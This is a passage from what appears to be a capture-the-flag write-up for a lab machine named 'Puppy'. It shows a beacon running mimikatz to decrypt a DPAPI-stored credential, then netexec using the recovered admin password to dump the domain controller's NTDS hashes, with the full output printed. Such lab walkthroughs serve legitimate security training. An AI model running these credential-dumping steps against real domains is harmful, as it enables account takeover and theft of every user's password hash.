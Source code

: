 Great now we need enc key

Commands to execute

```bash
[05/17 22:30:34] beacon> mimikatz dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

![alt text](../assets/images/puppy11.png)

not it will decyrpt and will give us password

![alt text](../assets/images/puppy12.png)

Now we can dump everything.

```bash
➜  Puppy nxc smb DC.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!' --ntds 
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         10.10.11.70     445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.70     445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
SMB         10.10.11.70     445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.70     445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
SMB         10.10.11.70     445    DC               PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
```